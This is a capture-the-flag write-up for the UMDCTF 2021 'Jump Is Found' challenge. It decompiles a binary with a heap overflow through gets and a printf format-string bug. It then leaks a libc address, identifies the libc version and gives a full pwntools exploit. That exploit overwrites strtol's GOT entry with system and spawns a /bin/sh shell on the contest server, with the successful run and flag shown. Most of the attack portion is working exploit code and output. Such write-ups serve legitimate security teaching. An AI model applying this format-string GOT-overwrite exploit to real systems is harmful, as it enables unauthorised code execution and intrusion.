

# UMDCTF 2021

## Jump Is Found

> We really like finding weird planets! Can you help us find some more?
>
> `nc chals5.umdctf.io 7002`
>
> author: WittsEnd2
>
> score: 5/10
>
> [jif](jif)

Tags: _pwn_ _x86-64_ _format-string_ _got-overwrite_ _bof_ _heap_


## Summary

Format-string GOT overwrite pwn with BOF in the heap.  Trick question?


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Partial RELRO = GOT overwrite; no PIE = easy ROP, easy GOT; no canary = Stack BOF.

We have options.

> PIE and canary could have been enabled and still solvable.

### Decompile with Ghidra

```c
void main(void)
{
  int iVar1;
  size_t sVar2;
  long lVar3;
  long in_FS_OFFSET;
  char *local_158;
  char *local_150;
  char *local_148;
  code **local_140;
  undefined8 local_138;
  undefined8 local_130;
  undefined local_128;
  char local_118 [264];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  local_150 = (char *)malloc(0xfa);
  local_148 = (char *)malloc(0xfa);
  setup();
  local_140 = (code **)malloc(0x18);
  *local_140 = jumpToHoth;
  local_140[1] = jumpToBlackHole;
  local_140[2] = jumpToMars;
  memset(local_148,0,0xfa);
  local_138 = 0x6120657261206557;
  local_130 = 0x2168747261452074;
  local_128 = 0;
  sVar2 = strlen((char *)&local_138);
  memcpy(local_148,&local_138,(long)(int)sVar2);
  do {
    memset(local_150,0,0xfa);
    memcpy(local_148,"We didn\'t go anywhere.",0x16);
    memset(local_118,0,0xfa);
    memset(local_118,0,0xfa);
    *local_140 = jumpToHoth;
    local_140[1] = jumpToBlackHole;
    local_140[2] = jumpToMars;
    printf("SYSTEM CONSOLE> ");
    gets(local_150);
    lVar3 = strtol(local_150,&local_158,10);
    iVar1 = (int)lVar3;
    if (iVar1 == 4) {
      local_148 = "Logging out\n";
      exit(0);
    }
    if (iVar1 < 5) {
      if (iVar1 == 3) {
        (*local_140[2])(local_148);
      }
      else {
        if (3 < iVar1) goto LAB_0040164e;
        if (iVar1 == 1) {
          (**local_140)(local_148);
        }
        else {
          if (iVar1 != 2) goto LAB_0040164e;
          (*local_140[1])(local_148);
        }
      }
    }
    else {
LAB_0040164e:
      puts("Check Systems");
      puts("1 - Hoth");
      puts("2 - Black Hole");
      puts("3 - Mars");
      puts("4 - Logout");
    }
    strncpy(local_118,local_148,0xfa);
    printf("Current location: ");
    printf(local_118);
    putchar(10);
  } while( true );
}
```

A quick scan yields the vulnerabilities, there's `gets(local_150)` and `printf(local_118)`, however `gets` is _getting_ into the heap (look before the `do` loop, most of the variables are allocated on the heap), however stack array `local_118` is copied from heap array `local_148`, but only `0xfa` (250) chars and `local_118` is allocated for 264 bytes and 280 bytes from the return address on the stack.  Anyway, none of this matters since there's no `return`, so there wasn't a shot a ROP anyway.

So we know what we cannot do.  Clearly the easy win is to just change `strtol` after `gets` into `system` by manipulating the GOT.

```
  local_150 = (char *)malloc(0xfa);
  local_148 = (char *)malloc(0xfa);
```

`gets(local_150)` is unbounded and will overwrite `local_148` in heap, what ends up in `local_148` will make its way into `local_118` via `strncpy` and eventually land on `printf`.

The first thing we need to figure out is how much to write into `gets` to get to `local_148`.  There's probably a way to solve this with math, but I was lazy and just sent 300 chars of garbage:

```bash
# cyclic 300
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
# ./jif
SYSTEM CONSOLE> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
Check Systems
1 - Hoth
2 - Black Hole
3 - Mars
4 - Logout
Current location: saactaacuaacvaacwaacxaacyaac
SYSTEM CONSOLE> ^C
# cyclic 300 | sed 's/saactaacuaacvaacwaacxaacyaac.*//' | wc -c
272
```

Right, so 272 bytes, then anything after is ripe for `printf` exploitation.

Next, we need to find the `printf` offset, simply send 272 bytes + `%nn$p` with `nn` starting at 1 until the output matches the input:

```bash
# ./jif
SYSTEM CONSOLE> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%16$p
Check Systems
1 - Hoth
2 - Black Hole
3 - Mars
4 - Logout
Current location: 0x7024363125
```

Ok, so the offset is `16`.  The output `0x7024363125` can be verified with (if you're unable to determine by sight :-):

```bash
# echo 7024363125 | xxd -r -p | rev ; echo
%16$p
```

Yep, it's a match.

Lastly, we need to find libc.  Fire up the binary in GDB, set a break point at the vulnerable `printf` (`b *main+772`), and take a look at the stack (send the same string as above):

```
gef➤  telescope 50
0x00007fffffffe250│+0x0000: 0x0000000000000000	 ← $rsp
0x00007fffffffe258│+0x0008: 0x0000001000000000
0x00007fffffffe260│+0x0010: 0x00000000004052a0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x00007fffffffe268│+0x0018: 0x00000000004052a0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x00007fffffffe270│+0x0020: 0x00000000004053b0  →  0x276e007024363125 ("%16$p"?)
0x00007fffffffe278│+0x0028: 0x00000000004054c0  →  0x00000000004012dd  →  <jumpToHoth+0> endbr64
0x00007fffffffe280│+0x0030: "We are at Earth!"
0x00007fffffffe288│+0x0038: "t Earth!"
0x00007fffffffe290│+0x0040: 0x0000000000000000
0x00007fffffffe298│+0x0048: 0x0000000000000000
0x00007fffffffe2a0│+0x0050: 0x0000007024363125 ("%16$p"?)	 ← $rdi
0x00007fffffffe2a8│+0x0058: 0x0000000000000000
0x00007fffffffe2b0│+0x0060: 0x0000000000000000
0x00007fffffffe2b8│+0x0068: 0x0000000000000000
0x00007fffffffe2c0│+0x0070: 0x0000000000000000
0x00007fffffffe2c8│+0x0078: 0x0000000000000000
0x00007fffffffe2d0│+0x0080: 0x0000000000000000
0x00007fffffffe2d8│+0x0088: 0x0000000000000000
0x00007fffffffe2e0│+0x0090: 0x0000000000000000
0x00007fffffffe2e8│+0x0098: 0x0000000000000000
0x00007fffffffe2f0│+0x00a0: 0x0000000000000000
0x00007fffffffe2f8│+0x00a8: 0x0000000000000000
0x00007fffffffe300│+0x00b0: 0x0000000000000000
0x00007fffffffe308│+0x00b8: 0x0000000000000000
0x00007fffffffe310│+0x00c0: 0x0000000000000000
0x00007fffffffe318│+0x00c8: 0x0000000000000000
0x00007fffffffe320│+0x00d0: 0x0000000000000000
0x00007fffffffe328│+0x00d8: 0x0000000000000000
0x00007fffffffe330│+0x00e0: 0x0000000000000000
0x00007fffffffe338│+0x00e8: 0x0000000000000000
0x00007fffffffe340│+0x00f0: 0x0000000000000000
0x00007fffffffe348│+0x00f8: 0x0000000000000000
0x00007fffffffe350│+0x0100: 0x0000000000000000
0x00007fffffffe358│+0x0108: 0x0000000000000000
0x00007fffffffe360│+0x0110: 0x0000000000000000
0x00007fffffffe368│+0x0118: 0x0000000000000000
0x00007fffffffe370│+0x0120: 0x0000000000000000
0x00007fffffffe378│+0x0128: 0x0000000000000000
0x00007fffffffe380│+0x0130: 0x0000000000000000
0x00007fffffffe388│+0x0138: 0x0000000000000000
0x00007fffffffe390│+0x0140: 0x0000000000000000
0x00007fffffffe398│+0x0148: 0x0000000000400000  →  0x00010102464c457f
0x00007fffffffe3a0│+0x0150: 0x00007fffffffe4a0  →  0x0000000000000001
0x00007fffffffe3a8│+0x0158: 0x74bececde9e90300
0x00007fffffffe3b0│+0x0160: 0x0000000000000000	 ← $rbp
0x00007fffffffe3b8│+0x0168: 0x00007ffff7de70b3  →  <__libc_start_main+243> mov edi, eax
```

> Notice the `%16$p` on the stack, that's at `printf` offset `16` as mentioned above.

That `__libc_start_main` is our first `libc` leak, so we'll just use that.  Computing the offset with:

```
gef➤  p/d (0x00007fffffffe3b8 - 0x00007fffffffe2a0) / 8 + 16
$3 = 51
```

Gives us `51` as the `printf` offset.  We need to send this remotely to get the correct libc version:

```bash
# nc chals5.umdctf.io 7002
SYSTEM CONSOLE> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%51$p
Check Systems
1 - Hoth
2 - Black Hole
3 - Mars
4 - Logout
Current location: 0x7fdfb1becbf7
```

Ok, this is where experience and a bit of luck comes in.  That number (`0x7fdfb1becbf7`) is `__libc_start_main+243`, or is it?  Well, it is not.  It's actually `__libc_start_main+231`.  Different libcs will have different offsets.  Fortunately in the last 12 months of CTF's its been `243` or `231` for most of these types of challenges.  Just take that long number and subtract `243` and `231` and then look at the last 3 nibbles.  You'll get:

```bash
# printf "%x\n" $(((0x7fdfb1becbf7 - 243) & 0xfff))
b04
# printf "%x\n" $(((0x7fdfb1becbf7 - 231) & 0xfff))
b10
``` 

Now use your favorite libc database (e.g. [https://libc.blukat.me](https://libc.blukat.me)) and check:



Only `b10` had a match, it's your lucky day.  Well it had 5 matches.  You can reason through this one just on sight.  The last one libc6_2.27 is probably the best guess (ask yourself what have you come across the most.)

With the libc location and version leak, crafting a format-string to overwrite the GOT and replace `strtol` with `system` is _mostly_ trivial.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./jif')

while True:
    if args.REMOTE:
        p = remote('chals5.umdctf.io', 7002)
        libc = ELF('./libc6_2.27-3ubuntu1.4_amd64.so')
        __libc_start_main_offset = 231
    else:
        p = process(binary.path)
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        __libc_start_main_offset = 243

    payload  = b''
    payload += 272 * b'A'
    payload += b'%51$p'

    p.sendlineafter('CONSOLE> ',payload)

    p.recvuntil('Current location: ')
    _ = p.recvline().strip()
    __libc_start_main = int(_,16) - __libc_start_main_offset
    log.info('__libc_start_main: ' + hex(__libc_start_main))
    libc.address = __libc_start_main - libc.sym.__libc_start_main
    log.info('libc.address: ' + hex(libc.address))

    if (libc.sym.system >> 16 == libc.sym.strtol >> 16):
        break
    else:
        p.close()
        continue

log.info('system.address: ' + hex(libc.sym.system))
log.info('strtol.address: ' + hex(libc.sym.strtol))

payload  = b''
payload += 272 * b'A'
payload += b'%' + str(libc.sym.system & 0xFFFF).rjust(6,'0').encode() + b'c'
payload += b'%0018$hn'
payload += p64(binary.got.strtol)

p.sendlineafter('CONSOLE> ',payload)
p.sendlineafter('CONSOLE> ','/bin/sh')
p.interactive()
```

Most of this should be fairly obvious from the Analysis section.  The printf offsets, the buffer overflow, the libc offsets, etc...

However the `while True:` and `if (libc.sym.system >> 16 == libc.sym.strtol >> 16):` may be a bit confusing.

If you look at the source again, this is the line that populates `local_118` and makes the `printf` exploit possible: `strncpy(local_118,local_148,0xfa);`.  `strncpy` will stop copying when it hits `\0` (NULL) even if _n_ has not been reached.  This means we get a one shot change to `strtol`.  IOW, we cannot write to two (or more) address with our format-string attack, either `strncpy` will not copy the 2nd (et al) address of our format-string, or if we try to loop it with a partial write to the `strtok` GOT entry, the program will most likely just crash.  So my solution was to verify that only the last 16 bits of `system` and `strtol` differed so I could have an easy one-write format-string exploit.

Once out of the loop (runs a few times, most of the time, once (below I captured 4 attempts)) the 272 bytes of padding plus the format-string attack is sent.

The format-string starts at `printf` offset `16` (see Analysis section above).  The string `%NNNNNNc` where `NNNNNNN` is the zero padded least `16` bits of `system`'s location.  The next string at offset `17` is the location we want to write data to as a `short` (`hn`).  Both these strings need to be aligned with the stack.  Lastly the location of `strtol` in the GOT at `printf` offset `18`.

Now, `strtol` is `system`, on the next `CONSOLE>` prompt just enter `/bin/sh` and get your shell.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/umdctf2021/jif/jif'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chals5.umdctf.io on port 7002: Done
[*] '/pwd/datajerk/umdctf2021/jif/libc6_2.27-3ubuntu1.4_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] __libc_start_main: 0x7f5e46938b10
[*] libc.address: 0x7f5e46917000
[*] Closed connection to chals5.umdctf.io port 7002
[+] Opening connection to chals5.umdctf.io on port 7002: Done
[*] __libc_start_main: 0x7f5e813ebb10
[*] libc.address: 0x7f5e813ca000
[*] Closed connection to chals5.umdctf.io port 7002
[+] Opening connection to chals5.umdctf.io on port 7002: Done
[*] __libc_start_main: 0x7fcd5b32ab10
[*] libc.address: 0x7fcd5b309000
[*] Closed connection to chals5.umdctf.io port 7002
[+] Opening connection to chals5.umdctf.io on port 7002: Done
[*] __libc_start_main: 0x7f24c9aadb10
[*] libc.address: 0x7f24c9a8c000
[*] system.address: 0x7f24c9adb550
[*] strtol.address: 0x7f24c9ad1230
[*] Switching to interactive mode
$ cat flag
UMDCTF-{1_f0UnD_th3_PLaN3t_N0w_t0_hyp325p4c3}
```
